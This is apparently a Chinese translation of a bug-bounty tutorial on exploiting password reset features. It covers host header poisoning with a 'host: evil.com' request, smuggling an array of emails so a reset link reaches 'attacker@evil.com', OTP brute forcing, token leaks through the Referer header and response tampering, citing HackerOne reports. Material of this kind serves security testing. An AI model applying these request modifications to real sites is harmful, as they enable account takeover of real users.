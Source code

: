 
https://sm4rty.medium.com/hunting-for-bugs-in-password-reset-feature-2021-3def1b391bef
## 前言

实现密码重置功能的常见方法:<br>
1.发送带有唯一 URL 的电子邮件以重置密码<br>
2.使用临时密码或当前密码发送的电子邮件<br>
3.询问私密问题，然后提供重置密码的选项<br>
4.使用 OTP（一次性密码）或多因素身份验证<br>

## 密码重置功能的利用
### 主机头中毒导致令牌泄露
1.攻击者修改请求的主机头(host header)，将目标的密码重置为自己的域。<br>

```
GET https://redacted.com/reset.php?email=foo@bar.com HTTP/1.1
host: evil.com
```
点击重置链接。由于该链接是由主机头组成的，所以它会链接到攻击者的网站。当目标访问此站点时，他们的密码重置令牌被发送给攻击者。攻击者现在使用他们的密码重置令牌重置目标的密码。<br>
https://hackerone.com/reports/182670  <br>
https://hackerone.com/reports/226659 <br>
https://hackerone.com/reports/698416 <br>

### 发送多个电子邮件而不是单个
在这种攻击中，攻击者可以通过发送一系列电子邮件地址而不是单个电子邮件地址来向任意电子邮件发送密码重置链接，这可能导致完全帐户接管。<br>
```
POST https://example.com/api/v1/password_reset HTTP/1.1
```

原始请求正文：
```
{“email_address”：“ xyz@gmail.com ”}
```

修改后的请求正文：
```
{“email_address”:[“ admin@breadcrumb.com ”,” attacker@evil.com ”]}
```

通过这种方式，密码重置链接会同时发送给受害者和攻击者。攻击者可以使用它来获得完全帐户接管。<br>
https://hackerone.com/reports/322985  <br>
https://twitter.com/HusseiN98D/status/1254888748216655872  <br>

![img.png](img.png)

### 暴力破解OTP重置密码。
现在，万一应用程序的密码重置功能基于 OTP 验证。许多程序接受无速率限制作为可接受的风险。所以，暴力破解 OTP 值得一试。<br>

您可以通过拦截 OTP 验证请求并暴力破解 6 位数字来重置帐户密码。使用它，可以通过更改用户数据和强制重置 OTP 来更改和重置任何帐户的密码。<br>

![img_1.png](img_1.png)

https://hackerone.com/reports/743545  <br>
https://hackerone.com/reports/280389  <br>

### 通过Referrer发现密码重置token

HTTP引用是一个可选的HTTP报头字段，它标识链接到所请求资源的网页的地址。Referer请求头包含指向当前请求页面的链接所跟随的前一个网页的地址。(就是从哪个链接来访问当前这个网页地址的)<br>
![图](https://miro.medium.com/max/1400/0*Jgn9fCgQL30wHntn)   

相关报告:<br>
https://hackerone.com/reports/342693<br>

### 用正常的响应来替代不正常的响应

例子:
有一个响应是这样的:
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)
```

将其改为:
```
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```

相关阅读:
https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 如何拦截响应
![img_2.png](img_2.png)